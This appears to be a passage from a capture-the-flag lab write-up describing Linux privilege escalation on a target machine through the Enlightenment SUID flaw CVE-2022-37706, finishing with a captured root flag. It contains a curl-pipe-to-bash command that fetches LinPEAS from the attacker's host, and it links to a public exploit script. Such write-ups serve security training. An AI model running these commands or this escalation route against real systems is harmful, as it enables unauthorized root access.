





We can now enumerate the system for possible privilege escalation vectors. For this, we will use LinPEAS, which is a script that helps identify potential security weaknesses in a Linux environment.
```bash
$ wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```
We then host it on our local server
```bash
$ sudo python3 -m http.server 80
```


We run LinPEAS with the following command, which downloads and executes the LinPEAS script directly from our local server. The curl command fetches the script from our specified URL, piping its contents directly into bash for execution.
```bash
$ curl http://10.10.14.15:80/linpeas.sh|bash
```


Upon checking files with interesting permissions, we see something noteworthy in the enlightenment directory.


Enlightenment stands out it has the Set User ID (SUID) bit set, allowing it to run with the privileges of the file owner, which in this case is root . It is a lightweight and visually appealing desktop environment that provides a graphical user interface for Linux systems. So we check the enlightenment version.



Upon checking the version, we see that it is 0.23.1. A quick Google search for vulnerabilities affecting this particular version leads us to CVE-2022-37706, which describes a flaw in enlightenment_sys in Enlightenment versions before 0.25.4 . This vulnerability allows local users to gain elevated privileges because the binary is SUID and owned as the root user, and the system library function mishandles path names that begin with a /dev/.. substring. We also come across this proof of concept script, which we proceed to download to our local machine.

https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/blob/main/exploit.sh

We create the exploit in the larisse session but first of all we need to go to /tmb directory to have permissions



And now get permisions to the exploit.sh and execute.


And navigating throw the directories we can get the root flag.


```bash
Root flag → dd86144464e9cbc14aaee496a5b06f8e
```

[Back](README.md)